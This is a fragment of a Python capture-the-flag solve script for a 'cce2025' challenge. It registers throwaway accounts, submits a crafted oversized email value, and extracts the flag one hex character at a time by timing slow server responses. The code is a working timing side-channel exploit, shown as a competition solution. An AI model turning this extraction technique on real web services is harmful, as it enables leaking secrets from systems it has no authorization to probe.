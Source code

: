 ```python

        start = time.time()
        temp_session_2.get(f"{board}", timeout=60)
        end = time.time()

        print(end - start)

        if end - start > 3:
            return charset[::-1][i]

        time.sleep(1)

username = "dummy" + str(random.randint(1000, 9999))
password="dummy"
charset = "0123456789abcdef"
flag="cce2025{"

print(username, password)
reservation_register(username, password, f"{username}@example.com")
reservation_login(username, password)
board_login(username, password)

reservation_register("test", "test", f"{"a"*(threshold-1)}!")

flight_id = get_flight_id()

for i in range(len(flag), 24):
    reservation_create_flight(flight_id, 1, i)
    time.sleep(10)
    flag += leakFlag()
    print(f"[+] Leaking Flag: {flag}")
    
print(f"[+] Final Flag: {flag}"+"}")
```